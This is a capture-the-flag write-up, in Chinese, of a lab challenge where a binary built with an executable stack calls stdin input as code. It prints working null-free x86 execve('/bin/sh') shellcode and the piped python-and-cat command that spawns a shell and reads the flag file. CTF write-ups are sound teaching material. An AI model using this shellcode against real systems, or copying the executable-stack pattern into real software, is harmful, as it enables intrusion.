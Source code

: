 # ExecuteMe
 * [Makefile](Makefile)中，`-zexestack`把原本預設的`stack as non-executable``拿掉了，能在stack上執行任何code
 * [程式碼](execute.c) function_ptr
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
 * function pointer？
  * 每個function包含code和指到code的function pointer
  * code必須是**可執行的assembly code**
 * 而buf在傳給function_ptr前，會先經過：`read(0, buf, 128);`
 * 因此，我們要創造的code，**不能包含\x0**，否則copy function會當作結束字元
 * server是x86
```
$ readelf -h execute
...
Class:    ELF32
Data:     2's complement, little-endia
...
OS/ABI:   UNIX - System V
...
Machine:    Intel 80386
```

## Solve
想自己寫一個但還沒成功，所以先用[網路上其他人做的x86 execve("/bin/sh")](https://www.exploit-db.com/exploits/37069/)：
`\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`
 * 放入程式執行
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 * 使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```
